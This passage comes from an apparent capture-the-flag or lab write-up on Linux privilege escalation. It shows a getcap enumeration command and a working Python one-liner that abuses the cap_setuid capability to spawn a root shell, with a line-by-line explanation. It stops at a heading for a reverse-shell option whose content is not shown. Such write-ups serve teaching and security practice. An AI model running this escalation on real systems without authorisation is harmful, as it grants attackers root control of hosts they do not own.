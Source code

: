 
#### Enumerating Linux Capabilities: {#enumerating-linux-capabilities}

To identify binaries with Linux capabilities set, we can use the `getcap` utility:

```shell
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

This will output paths and their associated capabilities, for example:

{{< figure src="/ox-hugo/2025-05-22-193735_.png" >}}


#### Additional Reading {#additional-reading}

-   <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities>
-   <https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work>
-   <https://blog.ploetzli.ch/2014/understanding-linux-capabilities/>


### Using `cap_setuid` To Get A root Shell: {#using-cap-setuid-to-get-a-root-shell}

As we can see the python3.8 binary has the `cap_setuid` &amp; the `cap_net_bind_service` capabilities set. We are going to focus on the `cap_setuid` capability as this allows us to set the user ID in which the process runs. In English that means we can run the process as root.


#### Option 1: Launching A Root Shell On The Host: {#option-1-launching-a-root-shell-on-the-host}

To do this is very simple all we have to run is the following:

```shell
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

Let's break this down so it's easier for everyone to understand.

-   `/usr/bin/python3.8 -c`: call the python binary and use the `-c` command flag so we can then pass in our python command.
-   `import os`: We import the `os` module as this will allow us to run `os` commands on the base operating system.
-   `os.setuid(0)`: We set the user id to `0` (root) so anything that comes after this command will be run in the context of the root user.
-   `os.system("/bin/bash")`: Now we spawn a bash shell and because we are in the context of the root user it will be a root shell.

And boom we have our root shell.
![](/ox-hugo/2025-05-22-074038_.png)

Let's get our flag.
![](/ox-hugo/2025-05-22-074146_.png)


#### Option 2: Launching A Reverse Root Shell: {#option-2-launching-a-reverse-root-shell}
